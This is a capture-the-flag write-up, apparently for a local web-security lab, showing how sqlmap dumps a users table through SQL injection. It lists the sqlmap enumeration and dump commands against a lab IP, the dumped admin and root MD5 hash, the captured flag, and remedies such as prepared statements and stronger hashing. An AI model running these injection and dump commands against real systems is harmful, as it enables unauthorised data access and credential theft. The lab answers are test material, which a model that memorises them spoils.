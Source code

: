 # Brute_Force
Brute Force for who, brute force for what, we don't need brute force. What we do need on the other hand is use sqlmap and get usernames and passwords.

## Example
This parts highlights a really nice sqlmap feature. Throught same means we can be able to retrieve a table in the database that has all the usernames and their passwords. Sqlmap decrypts the passwords for us(Brute Force).

## Commands
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a>
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dbs
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --tables -D Member_Brute_Force
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --columns -D Member_Brute_Force -T db_default
* sqlmap  -u <a href="http://192.168.43.251/index.php?page=member&id=1&Submit=Submit#">member</a> --dump -D Member_Brute_Force -T db_default

> options [Y, Y, D, N];

### usernames with cracked passwords
* root : 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow)
* admin: 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow)

If we login using these in <a href="http://192.168.43.251/index.php?page=signin">login</a> we get our flag: b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

## Remedy
* Again preapred statements would have prevented us form getting this sort of information
* However a much stronger ecryptiion model other than md5 five which is really unsafe, would have made it harder to decryt these passwords :( .

## Resources
* https://www.youtube.com/watch?v=ciNHn38EyRc
* https://www.youtube.com/results?search_query=sql+mapping